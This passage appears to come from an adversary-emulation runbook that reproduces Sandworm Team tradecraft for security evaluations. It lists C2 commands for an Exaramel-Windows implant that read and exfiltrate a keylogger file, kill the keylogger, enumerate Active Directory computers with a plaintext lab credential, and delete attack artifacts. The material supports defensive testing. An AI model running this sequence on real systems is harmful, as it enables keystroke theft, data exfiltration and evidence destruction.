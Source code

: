 Confirm the keylogger log file exists:

```bash
./evalsC2client.py --set-task Exaramel-Windows "exec-cmd dir C:\\Windows\\System32\\mslog.txt"
```

Confirm the keylogger actually logged keystrokes:

```
./evalsC2client.py --set-task Exaramel-Windows "exec-cmd type C:\\Windows\\System32\\mslog.txt"
```

[Source Code](../../Resources/Exaramel-Windows/taskhandler/taskhandler.go#L17)

Exfil the keylog file over the Exaramel-Windows C2 session (HTTPS).

:warning: Exaramel-Windows automatically RC4 encrypts the keylog file before exfiltration.

```bash
# Exaramel for Windows automatically encrypts files before sending them to the C2 server.

./evalsC2client.py --set-task Exaramel-Windows "put-file C:\\Windows\\System32\\mslog.txt"
```

[Source Code](../../Resources/Exaramel-Windows/taskhandler/taskhandler.go#L94)

Confirm you uploaded the keylog file; you should see an RC4 encrypted blob.

```
cat files/mslog.txt
```

Terminate the keylogger

```bash
./evalsC2client.py --set-task Exaramel-Windows "exec-cmd taskkill /F /IM mslog.exe"
```

Enumerate all domain hosts (prep for notpetya deployment)

```bash
# Sandworm Team has used a tool to query Active Directory using LDAP, discovering information about computers listed in AD.

./evalsC2client.py --set-task Exaramel-Windows "exec-cmd dsquery.exe computer -s 10.0.1.4 -u patreides -p ebqMB7DmM81QVUqpf7XI"
```

Cleanup artifacts.

```bash
# Sandworm Team has used backdoors that can delete files used in an attack from an infected system.

./evalsC2client.py --set-task Exaramel-Windows "exec-cmd del /Q C:\\Windows\\System32\oradump.exe C:\\Windows\\System32\\mslog.exe C:\\Windows\\System32\\mslog.txt"
```

:warning: Go back to the gammu RDP session; right-click sign-out.

#### :microscope: Cited Intelligence

* <https://www.welivesecurity.com/2016/12/13/rise-telebots-analyzing-disruptive-killdisk-attacks/>
